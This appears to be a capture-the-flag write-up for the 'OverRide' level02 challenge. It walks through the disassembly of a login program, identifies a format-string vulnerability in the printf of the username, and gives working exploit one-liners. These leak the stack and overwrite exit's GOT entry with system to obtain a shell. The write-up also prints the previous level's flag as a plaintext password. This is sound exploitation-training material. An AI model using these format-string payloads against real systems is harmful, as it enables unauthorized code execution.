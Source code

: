 
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```
```
<+245>:	lea    -0xa0(%rbp),%rax ==> result of reading "/home/users/level03/.pass" = the Flag
<+252>:	mov    $0x400bf5,%esi   ==> "\n"
<+257>:	mov    %rax,%rdi
<+260>:	callq  0x4006d0 <strcspn@plt>
```
```
strcspn() calculates the length of the number of characters before the 1st occurrence of character present in both the string
Parameters:
str1 : The Target string in which search has to be made.
str2 : Argument string containing characters to match in target string.
```
strcspn("PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv", "\n"). // the flag from level01

In this case, there is no occurrence of the newline character \n in the first string, so the function will return the length of the entire string, which is 40.
```
 <+260>:	callq  0x4006d0 <strcspn@plt>
 <+265>:	movb   $0x0,-0xa0(%rbp,%rax,1)
 <+273>:	cmpl   $0x29,-0xc(%rbp)       ===> ret fread() = -0xc(%rbp)
INTEL 
 <+265>:	mov    BYTE PTR [rbp+rax*1-0xa0],0x0
 <+273>:	cmp    DWORD PTR [rbp-0xc],0x29
```
```
rbp+rax*1-0xa0 = 0 ==> rbp-0xa0 + rax ==> *(rbp-0xa0 + rax) = 0 ==> buffer + rax ==> buffer[rax] = 0 
then compares the res of fread() to 41
```
```
if not equal; then 
  0x400bf8:	 "ERROR: failed to read password file\n"
  exit(1)
else jmp to <+361>

fclose(*File) // -0x8(%rbp)
```
```
the program really begins at <+373>
0x400c20:	 "===== [ Secure Access System v1.0 ] ====="
```
```
 <+431>:	mov    0x20087e(%rip),%rax        # 0x601248 <stdin@@GLIBC_2.2.5>
 <+438>:	mov    %rax,%rdx
 <+441>:	lea    -0x70(%rbp),%rax
 <+445>:	mov    $0x64,%esi
 <+450>:	mov    %rax,%rdi
 <+453>:	callq  0x4006f0 <fgets@plt>
```
```
<+453>: fgets Username from stdin and stores it at -0x70(%rbp)
<+523>:	fgets Username from stdin and stores it at -0x110(%rbp)

<+566>:	lea    -0x110(%rbp),%rcx ==> the PWD
<+573>:	lea    -0xa0(%rbp),%rax  ==> The Flag

<+591>:	callq  0x400670 <strncmp@plt>

strncmp(Flag, PWD, 0x29/41);

if jne    <main+642>
   printf(-0x70(%rbp) ) // username
   "username" does not have access!
   exit
else
  printf("Greetings, %s!\n", -0x70(%rbp)) // username
  system (/bin/sh)
```

Format String to overide the GOT

```
--[ Username: %p %p %p %p %p %p %p %p
--[ Password: AAAA
*****************************************
0x7fffffffe4c0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 0x41414141
```

`(python -c 'print " %p " * 8 + "\n" + "AAAA"') | ./level02`

```
level02@OverRide:~$ (python -c 'print "%8$p" + "\n" + "AAAA"') | ./level02
0x41414141 does not have access!
```

x/s 0x601228
0x601228 <exit@got.plt>

p 0x601228 = 6296104

callq  0x4006b0 <system@plt>

`(python -c 'print "%6296104p%8$n" + "\n" + "\x40\x06\xb0"[::-1]' ; cat) | ./level02 > /dev/null`






